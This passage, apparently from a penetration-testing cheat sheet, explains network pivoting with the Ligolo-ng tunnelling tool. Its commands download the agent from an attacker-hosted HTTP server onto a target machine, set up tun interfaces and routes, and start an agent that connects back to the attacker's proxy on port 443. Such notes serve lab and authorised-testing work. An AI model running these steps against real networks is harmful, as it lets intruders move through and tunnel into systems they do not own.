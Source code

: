{% endcode %}



## Pivoting&#x20;

### Ligolo-ng

{% code overflow="wrap" %}
```bash
#Attacker Machine, download proxy & agent :
#Proxy
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz

tar -xvzf ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz

#Agent
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz

python3 -m http.server 8080

wget http://10.10.200.56:80/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
tar -xvzf ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
```
{% endcode %}

Set up the attacker machine

```bash
sudo ip tuntap add user $YOUR_USER mode tun ligolo

#Delete the 192.168.98.0/24 IP Range from the tun0 interface :
sudo ip route del 192.168.98.0/24 dev tun0

#Up the ligolo interface :
sudo ip link set ligolo up

#Add 192.168.98.0/24 IP range to the ligolo interface :
sudo ip route add 192.168.98.0/24 dev ligolo
```



```bash
# start the proxy on attacker machine
./proxy -selfcert -laddr 0.0.0.0:443

# start the agent on the target machine
./agent -connect 10.10.200.X:443 -ignore-cert
```



On the ligolo-ng proxy, check the session & start the tunnel.
